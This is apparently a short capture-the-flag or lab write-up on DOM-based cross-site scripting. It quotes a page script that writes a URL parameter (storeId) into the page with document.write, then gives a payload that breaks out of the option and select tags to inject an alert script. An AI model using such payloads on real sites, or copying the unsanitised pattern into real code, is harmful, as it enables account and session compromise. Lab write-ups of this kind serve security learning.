 The site contains
```javascript
<script>
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
</script>
```

So we can add a (default) store "Bla" by getting
```
/product?productId=1&storeId=Bla
```

So let's break out of the `option` and `select` tags and write some javascript.
We don't care if we break the subsequent html.
```
Bla</option></select><script>alert(1)</script>
```

